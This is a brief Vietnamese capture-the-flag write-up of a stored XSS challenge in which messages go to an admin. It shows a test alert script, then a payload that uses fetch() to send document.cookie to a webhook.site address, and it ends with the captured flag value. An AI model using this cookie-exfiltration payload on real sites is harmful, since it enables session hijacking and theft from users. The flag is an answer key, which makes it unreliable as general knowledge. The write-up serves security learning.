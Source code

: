 ![image](../img_web_client/10.1.png)
chall cung cấp feature nhập vào message cho admin
![image](../img_web_client/10.2.png)

vì tiêu đề là XSS Store nên mình tiến hành exploit luôn

khi nhập vào ô message `<script>alert(origin)</script>`
![image](../img_web_client/10.3.png)
chứng tỏ XSS dính ở message

payload: 
`<script>fetch('https://webhook.site/xxxxxx-6417-40b7-bca9-c3dd61171562?flag='+document.cookie)</script>`

chờ admin truy cập, hứng tại webhook
![image](../img_web_client/10.4.png)
flag: `NkI9qe4cdLIO2P7MIsWS8ofD6`


